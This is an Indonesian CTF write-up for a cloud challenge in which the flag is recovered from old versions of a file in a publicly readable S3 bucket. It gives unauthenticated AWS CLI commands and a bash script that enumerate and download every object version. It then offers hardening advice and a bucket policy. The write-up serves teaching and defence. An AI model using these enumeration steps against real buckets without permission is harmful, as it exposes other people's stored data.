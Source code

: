 # Last Forever
## Description
431 points - Misc

Author: Lychnobyte

I have erased all my memories of you. But, why are you still in the deepest part of my heart? :')

<a href="http://forever.lychnobyte.my.id">http://forever.lychnobyte.my.id</a>

Hint: cloud challenge

## Solution

1. Pada soal ini kita diberikan akses ke sebuah web yang tidak ada fungsi input apapun.

  ![](img/step-1.png)

2. Oleh karena itu kita coba eksplore file - file yang umum ada di web publik, salah satunya yaitu `robots.txt`

  ![](img/step-2.png)

3. Dari info `robots.txt` kita mendapat info nama file lainnya yaitu `memories.txt` dan bila lihat isinya maka akan menampilkan pesan ini.

  ![](img/step-3.png)

4. Info yang tidak secara eksplisit menginfokan lokasi atau nama filenya tapi kalau dilihat seksama ada kata yang merujuk ke nama file yaitu `myheart` dan kita coba buka dengan tambahan ekstensi `txt`

  ![](img/step-4a.png)

5. Tidak ada info berarti dari `myheart.txt`. Kita lanjut ke clue/hint soal ini yaitu `cloud challenge`. Dan bila kita perhatikan dari beberapa file sebelumnya itu ada total 3 file dan salah satu kerentanan terkait `cloud` yang berhubungan dengan `exposed object data file` adalah `AWS S3 Bucket`.

6. Dengan berbekal dugaan itu, kita bisa baca pada link <a href="https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-unauthenticated-enum-access/aws-s3-unauthenticated-enum#by-dns">ini.</a> Terdapat info bahwa salah satu cara enumerasi apakah web target menggunakan S3 Bucket adalah dengan me-<i>lookup</i> DNS nya. Kita bisa pakai command `nslookup` untuk hal ini.

  ![](img/step-4.png)

7. Dari info nslookup tadi, kita bisa dapati info bahwa `forever.lychnobyte.my.id` adalah <strong>nama S3 Bucket nya</strong> dan <strong>us-east-2</strong> adalah region data tersimpan di AWS.

8. Berbekal info itu kita bisa gunakan `AWS CLI` untuk akses resource AWS lewat command line. Untuk instalasinya ada di link <a href="https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html">ini.</a>

9. Lalu untuk hal pertama yang dilakukan setelah instalasi adalah mengkonfigurasi AWS CLI terkait region nya agar sesuai dengan region target yaitu `us-east-2`. Kemudian kita dapat me-List setiap file yang tersedia di S3 berdasarkan `Versioning nya`. Hal ini dikarenakan, di S3 Bucket ada fitur versioning yang berperan merekam setiap perubahan yang terjadi pada object file. Jadi agar kita bisa tau file itu ada berapa versi kita bisa lihat semua versioning nya saja.

  ![](img/step-5.png)

  <strong>Command: </strong>
  ```bash
  aws s3api list-object-versions --bucket forever.lychnobyte.my.id --query "Versions[?VersionId!='null']" --no-sign-request
  ```

10. Kemudian, jika kita baca hasil list nya. Kita bisa dapati ada banyak versi di file `myheart.txt`.

  ![](img/step-6.png)

11. Untuk memastikan data apa yang berubah dari `myheart.txt`, kita coba ambil (get/download) file `myheart.txt` versi terlama (list ditampilkan dengan sorting berdasar object yang paling terbaru, jadi untuk yang terlama ada di urutan terakhir).

  ![](img/step-7.png)

  <strong>Command: </strong>
  ```bash
  aws s3api get-object --bucket forever.lychnobyte.my.id --key "myheart.txt" --version-id "x5u6Yux3PHJBMoCMq2gbRJAhgGbrKdPr" myheart-2.txt --no-sign-request
  ```

12. Isi dari file `myheart.txt` versi terlama hanya berisi satu huruf yaitu "T". Tapi kalau kita cermati, format flag soal di awali dengan huruf "T". Jadi ada kemungkinan kalau setiap versi `myheart.txt` menyimpan satu karakter dari flag.

  ![](img/step-8.png)

13. Kita lanjut saja untuk mengambil list data S3 Bucket hanya khusus di file `myheart.txt` saja dan menyimpannya ke `output.txt`.

  ![](img/step-9.png)

  <strong>Command: </strong>
  ```bash
  aws s3api list-object-versions --bucket forever.lychnobyte.my.id --query "Versions[?Key=='myheart.txt']" --no-sign-request > output.txt
  ```

14. Selanjutnya, kita bisa gunakan script `get_flag.sh` untuk mendapatkan setiap karakter flag dari setiap versi `myheart.txt` kecuali versi terbarunya karena versi terbaru itu berisi konten yang kita lihat di awal tadi (tidak berkaitan dengan flag).

  ```bash
  #!/bin/bash

num=15 #skipping the latest s3 versioning or very top in output.txt
id=""
flag=""

# Read the contents of output.txt into an array
readarray -t data < ../output/output.txt

# Loop through the array elements
for ((i=0; i<${#data[@]}; i++)); do
    # Calculate the index to access
    index=$((num))

    # Check if the index is within the bounds of the array
    if (( index < ${#data[@]} )); then

            # Get Version Id object
            id=$(echo ${data[$index]} | awk '{print $2}' | tr -d ",")
            echo $id

            # Download object with Version Id
            aws s3api get-object --bucket forever.lychnobyte.my.id --key "myheart.txt" --version-id $id myheart.txt --no-sign-request

            # Insert flag value on object file into variable Flag
            flag+=$(cat myheart.txt)

            # Remove the file
            rm myheart.txt
    fi

    # Increment num by 9 according to range between index of VersionId
    num=$((index + 9))

done

echo $flag
  ```

15. Kita jalankan saja file nya dan kita akan dapat flag nya tapi dalam kondisi terbalik (ini karena karakter pertama ada di file versi terlama sementara looping dilakukan dengan mengambil data dari file versi terbaru dulu)

  ![](img/step-10.png)

16. Untuk me-reverse flag, kita bisa pakai perintah `echo '<flag>' | rev` atau bisa juga pakai CyberChef seperti ini.

  ![](img/step-11.png)

## Hardening Step

Untuk mencegah kerentanan S3 Bucket seperti pada soal ini, kalian bisa memperhatikan beberapa hal ini:
1. Buat permission pada S3 Bucket dengan berlandaskan prinsip least-privilege untuk membatasi siapa saja yang bisa akses. Ini bisa diterapkan dengan cara membuat Resource-based Policy dan Access Control List salah duanya. Berikut ini contoh Policy yang melarang akses langsung (direct) ke object versioning pada versi lama file.

  ```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "DenyOlderVersions",
            "Effect": "Deny",
            "Principal": "*",
            "Action": "s3:GetObjectVersion",
            "Resource": "arn:aws:s3:::forever.lychnobyte.my.id/*"
        },
        {
            "Sid": "AllowCurrentVersion",
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::forever.lychnobyte.my.id/*"
        }
    ]
}
  ```

2. Dapat gunakan AWS Config untuk menilai seberapa aman keamanan pada resource AWS, salah satunya adalah S3.

3. Blokir akses publik untuk S3 Bucket bila tidak ada keperluan untuk itu (semisal bucket yang memang difungsikan menyimpan data internal perusahaan). Untuk bucket yang digunakan untuk static website, pastikan hanya file yang diperlukan saja yang diizinkan akses publik dan pertimbangkan untuk menggunakan Amazon CloudFront untuk mengamankan dan mendistribusikan konten website.

## Reference

* [Get object S3] https://docs.aws.amazon.com/cli/latest/reference/s3api/get-object.html#examples
* [Enum S3] https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-unauthenticated-enum-access/aws-s3-unauthenticated-enum
* [S3 Versioning Data Leaks] https://osintteam.blog/aws-s3-bucket-versioning-discloses-secrets-1d63fbe498ab
* [S3 Bucket Security] https://docs.aws.amazon.com/AmazonS3/latest/userguide/WebsiteAccessPermissionsReqd.html
